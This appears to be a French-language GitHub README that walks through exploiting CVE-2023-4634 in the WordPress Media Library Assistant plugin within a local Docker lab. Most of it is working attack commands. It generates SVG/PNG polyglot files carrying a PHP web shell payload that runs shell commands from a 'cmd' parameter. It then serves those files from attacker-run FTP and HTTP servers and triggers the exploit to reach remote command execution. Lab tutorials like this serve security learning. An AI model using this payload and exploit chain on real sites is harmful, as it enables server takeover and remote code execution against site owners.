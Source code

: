 # ProjetCL

# Tuto CVE-2023-4634

## Cloner le dépôt Git

Pour commencer, clonez le dépôt Git à l'aide de la commande suivante :

```bash
git clone https://github.com/lehazare/ProjetCL.git
```

## Construction et exécution du conteneur WordPress

Pour exécuter le conteneur WordPress, utilisez la commande suivante :

```bash
docker-compose up
```

## Installation du plugin MLA en version compromise (ex : 3.07) sur WordPress

Consultez la vidéo pour des instructions détaillées sur l'installation du plugin MLA.

## Tester avec Nuclei

Cette étape est optionnelle mais vous permet de vous assurer que l'image WordPress est correctement configurée et que le plugin MLA est installé dans une version compromise.

1. Installez Nuclei en utilisant la commande appropriée pour votre système (`brew install nuclei`, `sudo apt install nuclei`, etc.).
2. Utilisez la commande suivante pour tester avec Nuclei :

```bash
nuclei -u http://0.0.0.0:8080 -t ./CVE-2023-4634.yaml
```

> Note : Modifiez `0.0.0.0:8080` en fonction de l'emplacement où votre conteneur WordPress est en cours d'exécution.

## Début de l'attaque

### Objectif

L'objectif est d'accéder à l'URL suivante :

```
http://localhost:8080/pwned.php?cmd=ls
```

### Installation des modules Python nécessaires

Installez les modules Python nécessaires en utilisant la commande suivante :

```bash
python3 -m pip install -r requirements.txt
```

### Pour tester

Pour effectuer un test, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py -h
```

### Trouver l'adresse de sa machine

Utilisez la commande suivante pour obtenir l'adresse IP de votre machine :

```bash
ifconfig
```

Vous pouvez tester la connectivité en utilisant la commande `ping`.

### FTP

Génération des fichiers SVG :

```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --remotehttp http://192.168.1.103:8081 --png_polyglot_name virus.png --webserverpath /var/www/html --exploitname pwned.php
```

Créez un serveur FTP avec les fichiers SVG en exécutant la commande suivante dans le répertoire `remote_ftp` :

```bash
cd remote_ftp && python3 -m pyftpdlib -p 2122
```

### HTTP

Génération de l'image virus :

```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

Créez un serveur HTTP avec l'image virus en exécutant la commande suivante dans le répertoire `exploit-png` :

```bash
cd exploit-png && python3 -m http.server 8081
```

### Exploitation

Pour l'exploitation, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py --target http://localhost:8080 --remoteftp ftp://192.168.1.103:2122 --remotehttp http://192.168.1.103:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png --exploitname pwned.php
```

Vous pouvez tester l'exploit en ajoutant une commande à l'URL, par exemple :

```
http://localhost:8080/pwned.php?cmd=ls
```

Consultez la vidéo pour plus de détails.

https://www.youtube.com/watch?v=Xb5MUyxAxYg

[![Tuto YTB](https://img.youtube.com/vi/Xb5MUyxAxYg/0.jpg)](https://www.youtube.com/watch?v=Xb5MUyxAxYg)


